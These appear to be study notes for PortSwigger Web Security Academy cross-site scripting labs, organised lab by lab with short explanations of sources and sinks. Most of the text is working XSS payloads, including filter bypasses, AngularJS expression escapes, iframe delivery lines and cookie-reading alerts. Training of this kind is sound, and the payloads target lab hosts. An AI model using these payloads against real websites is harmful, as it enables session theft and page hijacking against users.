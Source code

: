 # DOM-Based XSS  Cross-site scripting

https://portswigger.net/web-security/all-labs#cross-site-scripting


### LAB: Reflected XSS into HTML context with nothing encoded

```
Enter the following into the search box: 
Payload : '</h1><script>alert(1)</script>
```

### Lab: Stored XSS into HTML context with nothing encoded
```
Enter the following into the comment box: 
 - Payload: comment=<script>alert(2)</script>
```



### Lab: DOM XSS in document.write sink using source location.search

A website takes something from the URL (like a search term),
And then shows it on the page using JavaScript,Without checking if it's safe.

✅ Two Important Parts:

1. Source – Where the user input comes from
   Example: location.search → This gives the part after ? in the URL.
   For example:
```
   https://example.com/page?name=hello
   location.search → "?name=hello"
```

2. Sink – Where the data is used/executed.
   Example: document.write() → This writes HTML to the page.
   If we use it directly with location.search, it can be dangerous.



Payload  : 
```
- ABC"><img src="a" onerror=alert(1)>
- ABC"><svg onload=alert(1)>
```



### Lab: DOM XSS in innerHTML sink using source location.search

Note : innerHTML we cannot insert any script tag.

Payload  : 
```
- <img src="a" onerror=alert(1)>
```


### Lab: DOM XSS in jQuery anchor href attribute sink using location.search source

Payload :
<a href="javascript:alert(document.cookie)">Click me</a>

```
javascript:alert(document.cookie)
```

### Lab: DOM XSS in jQuery selector sink using a hashchange event

```
<script>
    $(window).on('hashchange', function(){
        var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
        if (post) post.get(0).scrollIntoView();
        });
</script>
```
Payload :

```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```

### Lab: Reflected XSS into attribute with angle brackets HTML-encoded


when you're dealing with XSS (Cross-Site Scripting) and < or other tag-related characters (<, >) are filtered or encoded, you need to rely on tag-less or attribute-based payloads that don't require <script> or <img> tags to execute.

<a href="https://raw.githubusercontent.com/robin113x/BSCP-Exam/refs/heads/main/Payload/tagless_xss_payloads.txt">Tagless PAyloads</a>

```
" onmouseover="alert(1)
```

### LAB: Reflected XSS into a JavaScript string with angle brackets HTML encoded

When you’re dealing with Reflected XSS into a JavaScript string, and angle brackets < > are HTML-encoded or filtered, you can still exploit XSS without any HTML tags.

```
";alert(1);//         // closes quote and runs JS
'+alert(1)+'         // using concatenation
'-alert(1)-'         // works too
"/1/+alert(1)//      // division with alert
"/a/+alert(1)//      // forces type coercion
"+alert(1)+""        // string concat, safe from HTML filter
"+alert(String.fromCharCode(88,83,83))+"
```


### LAB: DOM XSS in document.write sink using source location.search inside a select element

payload:
```
product?productId=1&storeId="></select><img%20src=1%20onerror=alert(1)>
```

### LAB:  DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded
$scope
$watch $ON $eval $emit $apply $digest
payload:
```
{{$on.constructor('alert(1)')()}}
{{$watch.constructor('alert(1)')()}}
```


### LAB: Reflected DOM XSS
payload:
```
\"-alert(1)}//
\"+alert(1)}//
\"&alert(1)}//
\"|alert(1)}//
```

### Lab: Stored DOM XSS
payload:
```
<><img src=1 onerror=alert(1)>
```


### Reflected XSS into HTML context with most tags and attributes blocked

<iframe src="https:///0af8005f03c81c828041176b003b001f.web-security-academy.net/?search=<body onresize=print()>" onload=this.style.width='100px'>



### Reflected XSS into HTML context with all tags blocked except custom ones

```
<robin onclick=alert(document.cookie)>
<robin onclick=alert(1)>

<script>
location = 'https://0a5400970474591680c31759002a0079.web-security-academy.net/?search=<robin id=x onfocus=alert(document.cookie) tabindex=1>#x';
</script>
```

### Lab: Reflected XSS with some SVG markup allowed
```
<svg id=x onbegin=alert(1)>
<svg><animatetransform onbegin=alert(1)>   
```
### LAB:  Reflected XSS in canonical link tag
/?'accesskey='x'onclick='alert(1)